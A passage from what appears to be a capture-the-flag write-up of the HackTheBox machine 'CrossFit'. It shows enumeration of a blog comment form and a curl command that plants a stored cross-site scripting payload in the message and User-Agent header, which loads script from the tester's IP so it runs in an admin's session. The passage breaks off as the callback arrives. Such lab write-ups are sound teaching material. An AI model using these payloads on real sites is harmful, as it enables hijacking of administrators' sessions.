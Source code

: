 
The directory is listable:

![image-20210122171046406](https://0xdfimages.gitlab.io/img/image-20210122171046406.png)

Visiting `report.php` just returns:

> Your are not allowed to access this page.

## Shell as www-data

### Identify XSS

#### Enumeration

I tried to post a comment to the the form at the bottom of the blog post. On
doing so, it says that the content will be evaluated by a moderator:

![image-20210122172904544](https://0xdfimages.gitlab.io/img/image-20210122172904544.png)

Given the fact it will be reviewed and the box name (CROSSfit), this seems
like a good place to try a cross site scripting (XSS) attack. I added
`<script>` tags to my post:

![image-20210122173038053](https://0xdfimages.gitlab.io/img/image-20210122173038053.png)

On submitting, it returns a warning:

![image-20210122173102831](https://0xdfimages.gitlab.io/img/image-20210122173102831.png)

#### POC

I wasted a lot of time trying to get an XSS payload to get past this filter
and return the success message. Eventually, I noticed the text of the warning.
“A security report containing your IP address and browser information will be
generated and our admin team will be immediately notified.” What if I can get
an XSS payload into that report, and get JavaScript running in the admin
team’s session?

Because the browser information is called out as included in that report, I’ll
add an XSS payload to the request user agent string. I’ll send the following
POST using `curl`:

    
    
    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/"></script>'
    

If this works, the `<script>` tag in the body will trigger the report, and
then the `<script>` tag in the UA string will trigger a request to me from
Crossfit. And that is just what I see on a Python webserver a few seconds
after sending:

    